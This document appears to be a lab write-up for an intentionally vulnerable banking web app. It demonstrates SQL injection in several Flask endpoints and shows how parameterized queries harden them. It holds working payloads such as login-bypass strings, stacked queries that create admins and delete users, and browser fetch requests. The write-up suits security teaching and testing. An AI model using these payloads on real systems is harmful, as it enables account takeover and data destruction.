# SQL Injection Vulnerabilities
SQL injections occur when there is an injection of a SQL query into an application from the input data of a client.
Best practice is to prevent SQL injections by using parameterized queries. Some of the SQL injection vulnerabilities in
app.py are not practically exploitable due to the way that Flask works and/or how postgreSQL databases handle stacked
queries, etc. This does not mean that those SQL injection points are not problematic - they can sometimes still be
dangerous due to other vulnerabilities in the app and/or could become dangerous if small pieces of code were refactored
elsewhere. Due to this, all of the SQL injection vulnerabilities were hardened whether they were practically exploitable
or not.
## Prerequisites
Browser access to functioning web app and at least three registered user accounts.
- At least one of the accounts needs to be an admin.
- At least one money transaction.

## Demonstrations
This vulnerability is present in ten different functions within app.py. Steps for exploitation and verification of hardening are as follows.
### login()
Grants attacker full access to a user account.
#### Exploit
1. Go to login page.
From here, this may be exploited in one of two ways:
##### via UI
2. To access a specific user account (say "admin" in this case),
type in `admin' OR '1'='1` into the username field.1.
3. Type in whatever for the password.

    

4. This will bring the attacker to the dashboard of that user.
5. If the username is not known, the attacker can type in
`' OR '1'='1' --` into the username field.
6. Type in whatever for the password.

    

##### via CLI
7. Open the browser console/terminal.
8. Issue the following fetch request as a command
to gain access to the "admin" account:
`fetch('/login', { method: 'POST',
headers: {'Content-Type': 'application/json'},
body: JSON.stringify({username: "admin' OR '1'='1"
})}).then(r => r.json()).then(console.log)`
9. Observe outcome.

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack (either sequence of steps above) and observe outcome:

10. UI:



11. CLI:



### create_admin()
Allows attacker to alter information in the database when creating an admin account. If an attacker had
obtained an admin token this would allow them to do this without being an admin.
#### Exploit
1. This demonstration requires the users 'testuser1' and 'testuser2'. If those users do not exist, either reset the database or register them as users.
2. Log in as an admin.
From here, this may be exploited in one of two ways:
##### via UI
3. Once logged in as an admin, scroll down and click on "Admin Panel".

    

4. Take a look at the "User Management" section to see the registered users.

    

5. Scroll down to "Create Admin Account"

    

6. Type the following into username: `newuser1', 'foo', '1540', true); DELETE FROM users WHERE username = 'testuser1';--`.
You may need to change the account_number from 1540 if already taken.
7. Type in anything you want in the password field.

    

8. Take a look at the "User Management" section to see that `testuser1` has been replaced by `newuser1'.

    

##### via CLI
9. Open the browser console/terminal.
10. Issue the following fetch request as a command
to test the SQL injection (may need to change the account_number if already taken):
`fetch("/admin/create_admin", {
  method: "POST", headers: { "Content-Type": "application/json",
    "Authorization": "Bearer " + localStorage.getItem("jwt_token")
  }, body: JSON.stringify({
    username: "newuser2', 'bar', '1541', true); DELETE FROM users WHERE username = 'testuser2';--",
    password: "123"})
    }).then(r => r.json())
    .then(console.log);`

    

11. The "User Management" should now look like this:

    

#### Mitigate
Toggle the vulnerability state to on.

12. via UI:
13. Follow the directions for #3-#5 above. For #6, use this command instead: `newuser3', 'foo', '1543', true); DELETE FROM users WHERE username = 'newuser1';--`. You may need to change the account_number from 1543 if already taken. Type in anything you want in the password field. This command assumes that `newuser1` was created when testing above. If not, register `newuser1` as a user before testing this step.

    

14. Observe that this creates a strangely named user, but does not delete "newuser1".

    

15. via CLI:
16. Open the browser console/terminal.
17.  This command assumes that `newuser1` was created when testing above. If not, register `newuser1` as a user before testing this step.
Issue the following fetch request as a command
to test the SQL injection (may need to change the account_number if already taken):
`fetch("/admin/create_admin", {
  method: "POST", headers: { "Content-Type": "application/json",
    "Authorization": "Bearer " + localStorage.getItem("jwt_token")
  }, body: JSON.stringify({
    username: "newuser4', 'bar', '1545', true); DELETE FROM users WHERE username = 'newuser1';--",
    password: "123"})
    }).then(r => r.json())
    .then(console.log);`



18. Observe that this creates a strangely named user, but does not delete "newuser1".

    

### forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
1. Go to the login page and click on ‘Forgot Password? Reset here’.

    

From here, this may be exploited in one of two ways:
##### via UI
2. Type in `admin' OR '1'='1` in username.

    

3. See result:

    

##### via CLI
4. Open the browser console/terminal.
5. Issue the following fetch request as a command
to test the SQL injection: `fetch('/forgot-password', {
method: 'POST',
headers: {'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

6. See result:

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack (either sequence of steps above) and observe outcome:

7. UI:

    

8. CLI:

    

###  api_v1_forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command
to test the SQL injection: `fetch('/api/v1/forgot-password', {
method: 'POST',
headers: {'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

3. See result:

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack as above and observe outcome:

4. CLI:

    

###  api_v2_forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command
to test the SQL injection: `fetch('/api/v2/forgot-password', {
method: 'POST',headers: {
'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

3. See result:

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack as above and observe outcome:

4. CLI:

    

###  api_v3_forgot_password()
Username is vulnerable to SQL injection.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Open the browser console/terminal.
2. Issue the following fetch request as a command
to test the SQL injection: `fetch('/api/v3/forgot-password', {
method: 'POST',headers: {
'Content-Type': 'application/json'
},body: JSON.stringify({
username: "admin' OR '1'='1"
})}).then(r => r.json())
.then(console.log)`

3. See result:

    
#### Mitigate
Toggle the vulnerability state to on. Repeat attack as above and observe outcome:

4. CLI:

    

###  api_transactions()
Allows attacker to view transactions from all users.
#### Exploit
From the Vulnerable Bank homepage, this may be exploited in one of two ways:
##### via URL
1. To view transactions by all users, append this to the root URL: `/api/transactions?account_number=' OR '1'='1`

2. See transactions:

    

##### via CLI
2. Login as any user.
3. Open the browser console/terminal.
4. Issue the following fetch request as a command
to test the SQL injection: `fetch("/api/transactions?account_number=' OR '1'='1' --", {
method: 'GET',headers: {
'Authorization': 'Bearer ' + localStorage.getItem('jwt_token')
}}).then(r => r.json()).then(console.log);`

5. See transaction:

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack (either sequence of steps above) and observe outcome:

6. URL:

    

7. CLI:

    

8. The results of the mitigations will not show the transaction information. It will just show empty an empty transactions array. It will not detect that it is not a valid account number due to a different vulnerability, but it will not show the transaction information.

###  create_virtual_card()
The card_type variable is susceptible to SQL injections.
#### Exploit
This may be exploited with the CLI.
##### via CLI
1. Login as any user.
2. Open the browser console/terminal.
3. Issue the following fetch request as a command
to test the SQL injection: `fetch("/api/virtual-cards/create", {
method: "POST",headers: {"Content-Type": "application/json",
"Authorization": "Bearer " + localStorage.getItem("jwt_token")
},body: JSON.stringify({card_type: "standard'",
card_limit: 1000})}).then(r => r.json())
.then(console.log).catch(console.error);`

4. See result:

    

#### Mitigate
Toggle the vulnerability state to on. Repeat attack (either sequence of steps above) and observe outcome:



With the way the bank app is set up, users are allowed to create their own cards. This is a separate vulnerability.
###  get_billers_by_category()
The variable category_id is susceptible to SQL injection. However, due to the int:category_id in the app.route, Flask will only accept integers
so there is no practical way to exploit this vulnerability. The information below is just intended to show why parameterized queries are
always important as a small code change could make them vulnerable.
#### Exploit
If `@app.route('/api/billers/by-category/<int:category_id>', methods=['GET'])` in app.py were to be changed to
`@app.route('/api/billers/by-category/<category_id>', methods=['GET'])` then the billers' account info could
be accessed.



#### Mitigate
In order to follow best practices, the query was parameterized which would stop the SQL injection that is demonstrated above.



###  get_payment_history()
The SQL injection in this function would require another vulnerability to be practically exploitable, so its demonstration is and will remain deliberately omitted.
#### Mitigate
To follow best practices, the query was parameterized.
